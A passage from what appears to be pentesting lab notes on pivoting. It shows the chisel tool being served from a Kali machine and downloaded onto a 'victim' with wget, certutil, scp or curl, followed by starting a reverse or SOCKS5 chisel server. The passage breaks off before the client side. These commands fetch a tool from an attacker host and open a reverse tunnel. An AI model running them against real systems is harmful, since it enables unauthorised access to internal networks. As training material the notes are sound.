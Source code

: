 <pre class="language-bash"><code class="lang-bash"><strong>#Kali
</strong><strong>python3 -m http.server 80 #on attacker machine, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong>ssh ubuntu@&#x3C;t1_nat1> #access to target 1
wget http://&#x3C;kali_nat1>/chisel #download chisel (if victim machine has Linux OS)
certutil -urlcache -split -f http://&#x3C;kali_nat1>/chisel #download chisel (if victim machine has Windows OS)
chmod +x chisel #give execution permission
</code></pre>

or transferring using **SSH** via:

```bash
scp chisel kali@<t1_nat1>:/tmp #copy via ssh on /tmp victim machine directory 
chmod +x chisel #give execution permission (do it on both machines) 
```

or transferring using C**url**:

```bash
curl <kali_nat1>/chisel -o chisel
```

Finally, we can establish connection between attacker (Kali) and victim using chisel (Target 1):

#### Attacker Machine / Server

Solution 1 (i suggest it)

```bash
./chisel server --reverse -p 33 #on Kali
```

Solution 2

```bash
./chisel server --socks5 --reverse #on Kali
```

* PORT = port for the Chisel traffic
* socks5 = to setup a SOCKS5 proxy
* reverse = to tell Chisel to wait for a connection from a client

<div align="left"><figure><img src="../../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure></div>

#### Victim Machine / Client&#x20;

Solution 1(i suggest it)

Via socks5 bring us all ports:
